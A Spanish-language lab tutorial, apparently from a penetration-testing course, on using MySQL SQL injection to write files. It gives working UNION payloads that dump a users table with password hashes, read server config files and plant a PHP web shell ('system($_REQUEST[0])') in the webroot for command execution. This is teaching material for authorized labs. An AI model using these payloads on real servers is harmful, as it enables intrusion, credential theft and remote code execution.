




# Escritura de archivos

Cuando se trata de escribir archivos en el servidor back-end, se vuelve mucho más restringido en los DBMS modernos, ya que podemos utilizarlo para escribir un shell web en el servidor remoto, obteniendo así la ejecución del código y apoderándonos del servidor. Es por esto que los DBMS modernos deshabilitan la escritura de archivos de forma predeterminada y requieren ciertos privilegios para que los DBA escriban archivos. Antes de escribir archivos, primero debemos comprobar si tenemos suficientes derechos y si el DBMS permite escribir archivos.

***

### Escribir privilegios de archivos

Para poder escribir archivos en el servidor back-end utilizando una base de datos MySQL, necesitamos comprobar tres requisitos:



### Privilegio FILE en el usuario

El usuario debe tener habilitado el privilegio `FILE`.



### Variable global `secure_file_priv`

La variable global `secure_file_priv` no debe impedir la escritura en la ubicación deseada.



### Permisos de sistema de ficheros

El proceso MySQL debe tener acceso de escritura a la ubicación en la que queremos escribir en el servidor back-end.



Ya hemos descubierto que nuestro usuario actual tiene el `FILE` privilegio necesario para escribir archivos. Ahora debemos comprobar si la base de datos MySQL tiene ese privilegio. Esto se puede hacer comprobando la variable global `secure_file_priv`.

**secure\_file\_priv**

La [secure\_file\_priv](https://mariadb.com/kb/en/server-system-variables/#secure_file_priv) variable se utiliza para determinar desde dónde leer/escribir archivos. Un valor vacío nos permite leer/escribir archivos de todo el sistema de archivos. De lo contrario, si se establece un directorio determinado, solo podremos leer/escribir desde la carpeta especificada por la variable. Por otro lado, `NULL` significa que no podemos leer/escribir desde ningún directorio.

MariaDB tiene esta variable configurada en vacío de forma predeterminada, lo que nos permite leer/escribir en cualquier archivo si el usuario tiene el `FILE` privilegio. Sin embargo, MySQL usa `/var/lib/mysql-files` como carpeta predeterminada. Esto significa que leer archivos a través de una inyección en MySQL no es posible con la configuración predeterminada. Peor aún, algunas configuraciones modernas tienen como valor predeterminado `NULL`, lo que significa que no podemos leer/escribir archivos en ningún lugar dentro del sistema.

Para descubrir el valor de `secure_file_priv` dentro de MySQL podemos usar:

Cod: sql

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

En contextos de inyección tipo `UNION`, hay que obtener el valor usando una `SELECT`. La información de variables globales está en la base de datos `INFORMATION_SCHEMA`, en la tabla `global_variables` que contiene las columnas `variable_name` y `variable_value`.

Consulta SQL para obtener solo `secure_file_priv`:

Cod: sql

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

Como carga útil `UNION` de ejemplo (agregando columnas de relleno 1 y 4 para obtener 4 columnas):

Cod: sql

```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```



El resultado en este ejemplo muestra que el valor de `secure_file_priv` está vacío, lo que significa que podemos leer/escribir archivos en cualquier ubicación (siempre que tengamos el privilegio `FILE` y permisos de sistema).

***

### SELECT ... INTO OUTFILE

Una vez confirmado que podemos escribir archivos, podemos usar la sentencia `SELECT .. INTO OUTFILE` para escribir datos de consultas en archivos en el servidor. Esta instrucción se usa normalmente para exportar datos de tablas.

Ejemplo: exportar toda la tabla `users` a `/tmp/credentials`:

Escritura de archivos

```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

Si luego vamos al servidor y hacemos `cat` del archivo, veríamos el contenido:

Escritura de archivos

```shell-session
OsmanMartinez@htb[/htb]$ cat /tmp/credentials 

1       admin   392037dbba51f692776d6cefb6dd546d
2       newuser 9da2c9bcdf39d8610954e0e11ea8f45f
```

También es posible escribir cadenas directamente en archivos, permitiendo crear archivos arbitrarios:

Cod: sql

```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

Verificación:

Escritura de archivos

```shell-session
OsmanMartinez@htb[/htb]$ cat /tmp/test.txt 

this is a test
```

Escritura de archivos

```shell-session
OsmanMartinez@htb[/htb]$ ls -la /tmp/test.txt 

-rw-rw-rw- 1 mysql mysql 15 Jul  8 06:20 /tmp/test.txt
```

El archivo se creó correctamente y es propiedad del usuario `mysql`.

Consejo: Para escribir archivos largos o binarios se suele usar `FROM_BASE64("base64_data")` y decodificar en el servidor.

***

### Escritura de archivos mediante inyección SQL

Probemos escribir un archivo de texto en la raíz web para verificar permisos. La siguiente consulta escribe `file written successfully!` en `/var/www/html/proof.txt`:

Cod: sql

```sql
select 'file written successfully!' into outfile '/var/www/html/proof.txt'
```

Nota: Para escribir un shell web hay que conocer la ruta de la raíz web (webroot). Podemos intentar leer configuraciones del servidor con `LOAD_FILE` (por ejemplo: `/etc/apache2/apache2.conf`, `/etc/nginx/nginx.conf`, `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`) o hacer fuzzing con listas de posibles rutas (por ejemplo, listas en SecLists para Linux/Windows). Si nada funciona, examinar errores del servidor puede dar pistas.

Carga útil `UNION` para intentar escribir `proof.txt` usando la inyección:

Cod: sql

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```



En el ejemplo no se muestra error en la página, lo que indica que la consulta tuvo éxito. Comprobando `/var/www/html/proof.txt`:


Nota: En la salida vemos la cadena volcadas junto con `1`, `3` antes y `4` después porque todo el resultado de la consulta `UNION` se escribió en el archivo. Para limpiar la salida, usar cadenas vacías `''` en lugar de números de relleno.

***

### Cómo escribir un shell web

Si tenemos permisos de escritura, podemos escribir un webshell PHP en el webroot para ejecutar comandos en el servidor:

Cod: php

```php
<?php system($_REQUEST[0]); ?>
```

Usando una carga `UNION` similar, cambiamos la cadena y el nombre de archivo:

Cod: sql

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```



Nuevamente, la falta de error sugiere que la escritura fue exitosa. Podemos navegar a `/shell.php` y ejecutar comandos pasando el parámetro `0`, por ejemplo `?0=id`:



La salida del comando `id` confirma ejecución de código y que el proceso se ejecuta como el usuario `www-data`.
